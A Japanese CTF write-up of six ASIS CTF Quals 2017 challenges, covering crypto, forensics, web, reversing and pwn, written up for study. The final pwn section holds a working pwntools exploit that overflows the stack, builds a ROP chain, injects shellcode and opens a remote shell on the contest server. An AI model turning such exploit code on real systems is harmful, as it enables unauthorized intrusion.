

チーム Harekaze で [ASIS CTF Quals 2017](https://asis-ctf.ir/) に参加しました。最終的にチームで 504 点を獲得し、順位は 80 位 (得点 451 チーム中) でした。うち、私は 6 問を解いて 485 点を入れました。

以下、解いた問題の write-up です。

## [Trivia 1] Welcome!

> What is the smallest valid flag for ASIS CTF?

`ASIS{}`

## [Crypto 79] A fine OTP server

```python
def gen_otps():
    template_phrase = 'Welcome, dear customer, the secret passphrase for today is: '

    OTP_1 = template_phrase + gen_passphrase(18)
    OTP_2 = template_phrase + gen_passphrase(18)

    otp_1 = bytes_to_long(OTP_1)
    otp_2 = bytes_to_long(OTP_2)

    nbit, e = 2048, 3
    privkey = RSA.generate(nbit, e = e)
    pubkey  = privkey.publickey().exportKey()
    n = getattr(privkey.key, 'n')

    r = otp_2 - otp_1
    if r < 0:
        r = -r
    IMP = n - r**(e**2)
    if IMP > 0:
        c_1 = pow(otp_1, e, n)
        c_2 = pow(otp_2, e, n)
    return pubkey, OTP_1[-18:], OTP_2[-18:], c_1, c_2
```

というソースコードが与えられます。暗号文の立方根を計算すると平文が得られました。

```
ASIS{0f4ae19fefbb44b37f9012b561698d19}
```

## [Misc/Forensics 159] Piper TV

pcap ファイルが与えられます。binwalk に投げてみると以下のような結果が得られました。

```
$ binwalk PiperTV_e65d6f13bae89c187d2d719ee8bf35cfd9e96387

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
106           0x6A            MPEG transport stream data
19736         0x4D18          MPEG transport stream data
41396         0xA1B4          MPEG transport stream data
...
2118396       0x2052FC        MPEG transport stream data
2143020       0x20B32C        MPEG transport stream data
2169230       0x21198E        MPEG transport stream data
```

全て結合して ts ファイルとして保存しましょう。

```python
from scapy.all import *
pcap = rdpcap('PiperTV_e65d6f13bae89c187d2d719ee8bf35cfd9e96387')
res = b''
for p in pcap:
  if len(p) < 256:
    continue
  res += bytes(p)[0x42:]
open('res.ts', 'wb').write(res)
```

`res.ts` を再生していると 14 秒辺りで一瞬だけフラグが見えました。

[](../images/2017-04-10_1.png)

```
ASIS{41bb4b2455763d30b175a2c272ac5430}
```

## [Web/Warm-up 29] R Re Red ...

与えられた URL にアクセスすると、`index.html` -> `index.html%20` -> `index.html%2020` … という感じで延々リダイレクトされました。

怪しいところがないか、HTTP レスポンスヘッダと内容を確認しましょう。

```python
import json
import requests
url = 'https://re-red.asis-ctf.ir/index.html'
while True:
  r = requests.get(url)
  open('res/{:03d}.html'.format(url.count('%20')), 'w').write(
    json.dumps(dict(r.headers)) + '\n' + r.content.decode('ascii')
  )
  url += '%20'
```

grep で HTTP レスポンスヘッダを眺めていると、`222.html` だけ `"Last-Modified": "Fri, 07 Apr 2017 08:03:35 GMT"` と更新日時が異なっていました。

`222.html` は以下のような内容でした。

```html
<html>
<meta http-equiv="refresh" content="0; url=index.htm%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20">
<head>
<title>
Open Your Eyes!
</title>
</head>
<body>

<p>Open your eyes and try to find the Flag! :)</p>
</body>
</html>
<!-- Good Luck ;) -->
```

`index.htm%20%20%20...` のソースにコメントアウトされたフラグがありました。

```
ASIS{2dfd5ca547414ac0f7ccd9eef6ea7ea0}
```

## [Reverse 128] King Cobra

x86_64 な ELF ファイルが与えられます。binwalk に投げてみると以下のような結果が得られました。

```
$ binwalk King_Cobra_6c053d0c59f6e0a5c63a1e0697fd06bd42a86b13

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 64-bit LSB executable, AMD x86-64, version 1 (SYSV)
29849         0x7499          Zlib compressed data, best compression
30007         0x7537          Zlib compressed data, best compression
30178         0x75E2          Zlib compressed data, best compression
...
3174692       0x307124        Zlib compressed data, best compression
3179036       0x30821C        Zlib compressed data, best compression
3186039       0x309D77        Zlib compressed data, best compression
```

zlib compressed data を全て展開してみましょう。

```python
import zlib

offsets = [29849, 30007, 30178, 31317, 35518, 41527, 43099, 43567, 62607, 164151, 199259, 210741, 305206, 383435, 446410, 458316, 475699, 495146, 524700, 1551215, 2927379, 3046504, 3109609, 3164604, 3174692, 3179036, 3186039, 3843512]

with open('King_Cobra_6c053d0c59f6e0a5c63a1e0697fd06bd42a86b13', 'rb') as f:
  s = f.read()

for k, v in enumerate(offsets[:-1]):
  with open('bins/{:02d}.bin'.format(k), 'wb') as f:
    f.write(zlib.decompress(s[v:offsets[k+1]]))
```

展開されたバイナリを file に投げてみると以下のような結果が得られました。

```
$ 00.bin: python 2.7 byte-compiled
01.bin: python 2.7 byte-compiled
02.bin: python 2.7 byte-compiled
03.bin: python 2.7 byte-compiled
04.bin: python 2.7 byte-compiled
05.bin: data
06.bin: data
07.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=86d1e5e2ba7e05713588ee6ff135856cf23dc121, stripped
08.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=69bd753402899d4c37a7d1fcc0af93016bc78bf3, stripped
09.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=5980759b70d79b4bdefe89b9ab47fadae5dcd48e, stripped
...
22.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=340b7b463f981b8a0fb3451751f881df1b0c2f74, stripped
23.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=c4ff707a8c96965eb4788071810efc603d010d27, stripped
24.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=9ae623c04f29a74e4c75e052d9ad25a213183175, stripped
25.bin: data
26.bin: ASCII text
```

`05.bin` と `06.bin` は Python のバイトコードのようでした。

それぞれデコンパイルすると `05.bin` は PyInstaller のローダ、`06.bin` は以下のような内容でした。

```python
# Embedded file name: reverse_1.1.py
from sys import argv

def encode(data):
    res = ''
    for b in data:
        res += chr((ord(b) & 15) << 4 | (ord(b) & 240) >> 4)

    return res


if len(argv) < 2:
    print 'Oops, do you know the usage?!'
else:
    try:
        data = open(argv[1], 'r').read()
        f = open('flag.enc', 'w')
        f.write(encode(data))
        f.close()
        print 'your encoded file is ready :P'
    except:
        print 'huh?!, what do you mean by this arg?'
```

`python2 06.pyc_dis 25.bin` でフラグが得られました。

```
ASIS{20a87eb1e30361e19ef48940f9573fe3}
```

## [Pwning/Warm-up 89] Start

x86_64 な ELF ファイルが与えられます。

```
$ file ./Start_7712e67a188d9690eecbd0c937dfe77dd209f254
./Start_7712e67a188d9690eecbd0c937dfe77dd209f254: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1027ea7f426946811b9ba65a666db93a2b5bffac, stripped
$ checksec --file ./Start_7712e67a188d9690eecbd0c937dfe77dd209f254
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

でした。read で bss にシェルコードを置いて実行しましょう。

```python
import time
from pwn import *

context(arch='amd64', os='linux')
shellcode = asm(shellcraft.sh())

addr_read = 0x400400
addr_bss = 0x601038
addr_pop_rdi = 0x4005c3 # 0x004005c3: pop rdi ; ret  ;  (1 found)
addr_pop_rsi_r15 = 0x4005c1 # 0x004005c1: pop rsi ; pop r15 ; ret  ;  (1 found)

s = remote('139.59.114.220', 10001)

payload = ''
payload += 'A' * 24
payload += p64(addr_pop_rdi)
payload += p64(0)
payload += p64(addr_pop_rsi_r15)
payload += p64(addr_bss)
payload += p64(1024)
payload += p64(addr_read)
payload += p64(addr_bss)
s.send(payload)
time.sleep(.5)

s.send(shellcode)
s.interactive()
```

```
ASIS{y0_execstack_saves_my_l1f3}
```
